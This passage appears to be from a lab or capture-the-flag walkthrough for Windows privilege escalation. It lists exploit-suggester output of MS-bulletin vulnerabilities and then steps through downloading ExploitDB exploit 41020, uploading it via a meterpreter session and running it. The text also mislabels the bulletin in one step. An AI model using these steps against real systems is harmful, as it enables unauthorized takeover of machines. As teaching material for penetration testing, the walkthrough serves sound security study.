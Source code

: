     [E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
    [M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
    [E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
    [E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
    [E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
    [E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
    [E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
    [E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
    [E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
    [M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
    [E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
    [M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
    [E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
    [E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
    [E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
    [M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
    [M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
    [M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
    [E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
    [M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
    ```

15. So there a few here that will work and more that won't you can try them out one by one but I will let you know that MS16-098 will work and so does MS16-032. Those ar the ones that I've tried.
16. Let's run the 2nd option MS16-095. Go to the ExploitDB website https://www.exploit-db.com/exploits/41020 and download the binary executable.
17. Let's upload that in our meterpreter shell

    ```
    upload 41020.exe
    ```

    then let's try a shell so it's easier to see things

    ```
    shell
    ```

    Great! Now let's execute that payload
